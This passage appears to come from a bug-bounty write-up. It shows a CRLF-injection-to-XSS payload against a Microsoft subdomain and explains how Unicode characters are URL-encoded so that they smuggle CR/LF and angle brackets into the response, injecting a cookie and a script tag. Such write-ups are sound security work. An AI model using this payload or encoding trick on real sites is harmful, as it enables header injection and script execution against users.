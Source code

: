 So my payload for CRLF to XSS was:-

Also, I performed URL encoding for avoiding errors and my final payload was:-

```html
ENCODING
"<" --> 嘼 --> %E5%98%BC
">" --> 嘾 --> %E5%98%BE

https://subDomain.microsoft.com/%E5%98%8D%E5%98%8ASet-Cookie:whoami=thecyberneh%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%BCscript%E5%98%BEalert(1);%E5%98%BC/script%E5%98%BE
```

After inserting that payload, I got the most beautiful results

I am sharing some beautiful screenshots

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
